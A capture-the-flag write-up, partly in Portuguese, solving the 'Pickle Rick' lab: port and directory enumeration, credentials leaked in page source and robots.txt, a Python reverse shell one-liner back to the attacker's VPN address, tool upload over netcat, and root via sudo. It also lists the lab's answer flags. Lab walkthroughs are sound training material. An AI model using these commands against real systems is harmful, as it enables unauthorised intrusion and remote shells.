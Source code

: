 # Lab: Pickle Rick (Easy Mode)

## TASKs:

1. **What is the first ingredient that Rick needs?** `mr. meeseek hair`
2. **What is the second ingredient in Rick’s potion?** `1 jerry tear`
3. **What is the last and final ingredient?** `fleeb juice`

---

```
export IP=10.10.89.179
```
```
ip addr show tun0 # 10.8.32.62/16
```

---

## 1) Enumeração com Nmap
```bash
nmap -A $IP
```
**Resultados:**
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
**Fonte:** http://10.10.89.179/ -> **Username:** R1ckRul3s

---

## 2) Enumeração com Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```
**Diretórios e Arquivos Encontrados:**
```
/assets/
/robots.txt -> Wubbalubbadubdub
/login.php -> Username: R1ckRul3s , Password: Wubbalubbadubdub
/portal.php -> (INFO: Após Login!) Command Panel: "ls", "less", "grep .", "grep -R ." -> (toda a info de todos os ficheiros)
```
**Flags Identificadas:**
```
Sup3rS3cretPickl3Ingred.txt: mr. meeseek hair (INFO: FLAG!)
clue.txt: Look around the file system for the other ingredient.
```
**Comandos Não Permitidos:**
```php
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
```

**Possível Codificação Base64:**
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

---

## 3) Decodificação Base64
```bash
echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
```
**Resultado:**
```
rabbit hole
```

---

## 4) Verificação e Exploração Python
```bash
python3 -c "print('hello')" # Verificar se python3 está disponível
```
**Reverse Shell (Github Reverse Shell CheatSheet)**
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.32.62",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```
**Listener no Terminal:**
```bash
netcat -lnvp 9999
```

---

## 5) Estabilização de Shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
**Erros Possíveis:**
```
/bin/sh: 0: can't access tty; job control turned off
```
**Correção:**
```bash
export TERM=xterm
ls
```

---

## 6) Escalada de Privilégios
```bash
stabilize_shell3.sh
upload_file_nc.sh /opt/linpeas.sh
```
**Execução do Linpeas:**
```bash
nc -q 0 10.8.9.112 19934 > /dev/shm/lin
cd /dev/shm
ls # linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
**Identificação:**
```
(ALL) NOPASSWD: ALL (INFO: Acesso total sem senha)
```
**Escalação para Root:**
```bash
sudo bash
```
**Flags Encontradas:**
```bash
ls # 3rd.txt
cat 3rd.txt # feeb juice
```
**Exploração de Diretórios de Usuário:**
```bash
cd /home
ls # rick
cd rick/
ls # second ingredientes
cat * # 1 jerry tear
```
